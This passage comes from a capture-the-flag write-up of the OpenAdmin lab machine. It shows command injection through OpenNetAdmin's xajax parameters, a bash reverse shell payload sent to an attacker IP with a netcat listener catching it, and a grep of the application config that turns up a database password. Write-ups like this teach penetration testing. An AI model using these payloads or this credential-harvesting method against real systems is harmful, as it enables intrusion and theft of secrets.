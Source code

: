 ```
BEGIN
uid=33(www-data) gid=33(www-data) groups=33(www-data)
END
```
Now, once we've tested that we have a remote code execution, let's use a more complex payload to test the resiliency of the application to our dangerous input characters
```
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";ping -c 1 10.10.14.24;echo "END"&xajaxargs[]=ping
```
Listening with tcpdump on the tun0 interface, we can see the following packets incoming
```
[root@kali OpenAdmin ]$ tcpdump -nettti tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 00:00:00.000000 ip: 10.10.10.171 > 10.10.14.24: ICMP echo request, id 4706, seq 1, length 64
 00:00:00.000013 ip: 10.10.14.24 > 10.10.10.171: ICMP echo reply, id 4706, seq 1, length 64
```
Now we can change our payload to the following, with the standard reverse tcp bash shell:
```
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.24/4444+0>%261";echo "END"&xajaxargs[]=ping
```
and get a shell as www-data
```
root@kali:~/Documents/HTB/Boxes/OpenAdmin# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.171] 43374
bash: cannot set terminal process group (1242): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```

## User
Once we gain an initial foothold, let's look for database password into the OpenNetAdmin application directory.
```
www-data@openadmin:/var/www/html/ona$ grep -ri pass *    
[... SNIP ...]
local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',   
[... SNIP ...]  
```
Now let's open the file looking for a database user:
```
www-data@openadmin:/var/www/html/ona$ less local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
```